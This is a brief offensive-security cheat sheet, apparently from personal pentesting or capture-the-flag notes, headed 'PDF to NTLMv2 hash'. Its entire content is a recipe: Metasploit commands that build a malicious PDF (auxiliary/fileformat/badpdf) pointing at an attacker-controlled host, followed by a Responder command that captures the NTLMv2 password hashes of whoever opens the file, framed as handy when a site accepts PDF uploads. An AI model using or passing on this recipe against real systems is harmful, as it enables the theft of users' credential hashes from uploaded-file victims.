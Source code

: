 # PDF to NTLMv2 hash

Especially useful when able to upload pdf files to site

### Generate Malicious PDF file

```bash
msfconsole
use auxiliary/fileformat/badpdf
set filename helloworld.pdf
set lhost 10.10.14.2
run
```

### Listen for NTLMv2 Hash

```bash
responder -I tun0
```
